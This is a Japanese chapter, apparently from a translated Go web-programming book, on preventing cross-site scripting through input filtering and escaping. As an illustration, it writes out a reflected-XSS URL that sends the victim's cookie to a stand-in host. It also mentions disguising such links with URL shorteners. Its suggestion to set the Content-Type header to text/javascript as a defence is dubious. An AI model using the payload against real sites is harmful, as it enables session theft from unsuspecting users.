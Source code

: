 # 9.3 XSS攻撃の回避
インターネット技術の発展に伴って、現在のWebアプリケーションはどれも大量の動的なコンテンツを含ませることでユーザビリティを高めています。いわゆる動的なコンテンツとは、アプリケーション・プログラムがユーザの環境とユーザのリクエストに従って対応するコンテンツを出力することをいいます。動的なホームページは"クロスサイトスクリプティング攻撃（Cross Site Scripting, セキュリティ専門家は通常これを省略してXSSと呼びます）"の脅威を受ける可能性があります。性的なホームページは完全にこの影響を受けません。

## XSSとは何か
XSS攻撃：クロスサイトスクリプティング(Cross-Site Scripting)。カスケーディングスタイルシート(Cascading Style Sheets, CSS)の省略と混同しないようにクロスサイトスクリプティングはXSSと省略されます。XSSはよく見かけるセキュリティホールの一種です。これは攻撃者が悪意のあるコードを他のユーザが使用しているページに埋め込むことを許してしまいます。多くの攻撃(一般には攻撃者と被害者のみに影響します)とは異なりXSSは第三者に及びます。すなわち、攻撃者、クライアントとWebアプリケーションです。XSSの攻撃目標はクライアントに保存されたcookieの奪取またはクライアントの身分を識別する慎重に扱うべき情報を使う他のページです。一旦合法的なユーザの情報が取得されると、攻撃者は合法的なユーザを装ってページに対してやりとりを行うことができるようになります。

XSSは通常２つに大別することができます：ひとつは保存型XSSで、主にユーザにデータを入力させ、他にこのページを閲覧しているユーザが閲覧できる場所で出くわします。掲示板、コメント欄、ブログや各種フォーム等です。アプリケーションプログラムはデータベースからデータを検索し、画面に表示させます。攻撃者は関連する画面で悪意のあるスクリプトデータを入力したあと、ユーザがこのページを閲覧したときに攻撃をうけます。このプロセスを簡単にご説明すると：悪意あるユーザのHtmlがWebアプリケーションに入力->データベースに入る->Webアプリケーション->ユーザのブラウザ。もう一つはリフレクション型XSSです。主な方法はスクリプトコードをURLアドレスのリクエストパラメータに追加することです。リクエストパラメータがプログラムに入ると、ページに直接出力され、ユーザがこのような悪意あるリンクをクリックすることで攻撃を受けます。

現在のXSSの主な手段と目的は以下のとおり：

- cookieを盗み、慎重に扱うべき情報を取得する。
- Flashを埋め込むことで、crossdomainの権限設定により高い権限を取得する。またはJava等を利用して似たような操作を行う。
- iframe、frame、XMLHttpRequestまたは上のFlashといった方法を利用して、（被害者の）ユーザの身分にある管理操作を実行する。またはマイクロブログを送信したり、フレンドを追加したり、プライベートなメールを送信したりといった通常の操作を実行する。少し前に新浪微博はXSSに遭遇しました。
- 攻撃可能なゾーンを利用してその他のゾーンの信任の機能を受ける。信任を受けたソースの身分で通常は許されていない操作をリクエストする。例えば不当な投票活動等。
- PVが非常に大きいページでのXSSは小型のページを攻撃し、DDoS攻撃の効果を実現することができる。

## XSSの原理
Webアプリケーションはユーザが送信したリクエストのデータに対し十分な検査およびフィルタリングを行なっていないと、ユーザが送信するデータにHTMLコードを許してしまい（主に">"、"<"）、エスケープされていない悪意あるコードを第三者であるユーザのブラウザ上で解釈/実行させてしまいます。これがXSSセキュリティホールを生み出す原因となっています。

以下ではリフレクション型XSSを例にXSSのプロセスをご説明します：パラメータによってユーザの名前を出力するページがあるとします。例えばurl：`http://127.0.0.1/?name=astaxie`にアクセスすると、ブラウザでは以下のような情報を出力します：

	hello astaxie

もし我々が`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`のようなurlを送信した場合、ブラウザがダイアログを表示することに気づくでしょう。これはつまり、ページにXSSセキュリティホールが存在することを示しています。では悪意あるユーザはどのようにしてCookieを盗み出すのでしょうか？上と同じように、`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`というurlでは、現在のcookieが指定されたページ、www.xxx.comに送信されます。このようなURLは一目見て問題があるとわかると思われるかもしれません。いったい誰がクリックするのかと。そうです。このようなURLは人に疑われがちです。しかしURL短縮サービスを使ってこれを短縮した場合、あなたは気づくことができるでしょうか？攻撃者は短縮されたurlをなんらかの経路で広め、真相を知らないユーザが一旦このようなurlをクリックすることで、対応するcookieデータがあらかじめ設定されたページに送信されてしまいます。このようにユーザのcookie情報を盗んだあとは、Websleuthといったツールを使うことでこのユーザのアカウントを盗み出すことができるか検査されてしまいます。

XSSに関するより詳しい分析は"[新浪微博XSS事件分析](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)"と呼ばれる記事を参考にしてください。

## どのようにしてXSSを予防するか
答えは簡単です。ユーザのいかなる入力も決して信用せず、入力に含まれるすべての特殊文字をフィルタリングするのです。このようにすれば大部分のXSS攻撃を根絶することができます。

現在XSSの防御では主に以下のいくつかの方法があります：

- 特殊文字のフィルタリング

	XSSを避ける方法の一つは主にユーザが提供するコンテンツに対してフィルタリングを行うことです。Go言語ではHTMLのフィルタリング関数を提供しています：

	text/templateパッケージのHTMLEscapeString、JSEscapeStringといった関数です。

- HTTPヘッダに指定した型を使用する

	`w.Header().Set("Content-Type","text/javascript")`

	このようにすることでブラウザにhtmlを出力させずjavascriptコードを解釈させることができます。


## まとめ
XSSセキュリティホールはとても危険なものです。Webアプリケーションを開発している時、必ずデータをフィルタリングするよう肝に銘じておいてください。特にクライアントに出力する前に。これは現在のところXSSを防止する手段として有効です。

## links
   * [目次](<preface.md>)
   * 前へ: [入力フィルタリングの確保](<09.2.md>)
   * 次へ: [SQLインジェクションの回避](<09.4.md>)
